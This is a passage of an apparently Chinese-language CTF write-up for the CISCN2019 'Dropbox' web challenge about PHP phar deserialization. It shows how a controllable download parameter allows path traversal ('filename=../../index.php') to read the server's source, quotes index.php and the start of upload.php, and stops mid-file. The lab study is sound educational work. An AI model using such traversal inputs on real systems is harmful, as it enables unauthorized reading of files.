 ```yaml
---
title: '[CISCN2019 华北赛区 Day1 Web1]Dropbox'
date: 2024-06-08 17:12:07
tags: phar反序列化
categories: 刷题笔记
---
```


### [CISCN2019 华北赛区 Day1 Web1]Dropbox（phar反序列化）

我们打开页面，注册登录

我们发现可以上传文件

但只能上传图片



![image-20240608183356045](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406081833202.png)

我们点击下载，进行抓包，发现filename这个参数可控，我们想到任意文件读取

![image-20240608183510516](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406081835628.png)

由题目信息可知页面存在upload.php,delete.php,index,php

我们一个一个读取

```
filename=../../index.php
```

**index.php**

```
<?php
include "class.php";

$a = new FileList($_SESSION['sandbox']);
$a->Name();
$a->Size();
?>


初始化FileList类，调用Name、Size方法

看到 Filelist中是不存在这两种方法的，于是调用了 __call魔术方法

__call方法：$this->results[$file->name()][$func] = $file->$func();results存储 File类对应方法的执行结果

最后当FileList对象销毁时，调用 __destruct魔术方法，打印出结果
```

**upload.php**

```
<?php
session_start();
if (!isset($_SESSION['login'])) {
    header("Location: login.php");
    die();
}

include "class.php";

if (isset($_FILES["file"])) {
    $filename = $_FILES["file"]["name"];
    $pos = strrpos($filename, ".");
    if ($pos !== false) {
```